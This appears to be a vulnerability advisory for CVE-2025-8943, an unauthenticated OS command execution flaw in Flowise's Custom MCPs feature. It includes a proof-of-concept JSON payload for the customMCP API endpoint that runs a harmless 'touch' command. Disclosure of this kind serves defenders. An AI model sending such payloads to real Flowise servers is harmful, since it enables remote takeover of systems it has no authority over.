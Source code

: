 ```yaml
---
description: CVE-2025-8943, CRITICAL, Flowise OS command remote code execution
title: Flowise OS command remote code execution
date_published: "2025-08-14"
last_updated: "2025-08-14"
xray_id: JFSA-2025-001380578
vul_id: CVE-2025-8943
cvss: 9.8
severity: critical
discovered_by: Assaf Levkovich
type: vulnerability

---
```


## Summary

Unsupervised OS command execution leads to remote code execution by network attackers

## Component

[flowise](https://www.npmjs.com/package/flowise?activeTab=code)

## Affected versions

(,)

## Description

The Custom MCPs feature is designed to execute OS commands, for instance, using tools like `npx` to spin up local MCP Servers. However, Flowise's inherent authentication and authorization model is minimal and lacks role-based access controls (RBAC). Furthermore, in certain Flowise versions the default installation operates without authentication unless explicitly configured. This combination allows either unauthenticated or authenticated users to execute unsandboxed OS commands. 

## PoC

Send the following payload to the `node-load-method/customMCP` API endpoint -

```json
{
    "inputs":
    {
        "mcpServerConfig":
        {
            "command": "touch",
            "args":
            [
                "/tmp/yofitofi"
            ]
        }
    },
    "loadMethod": "listActions"
}
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References



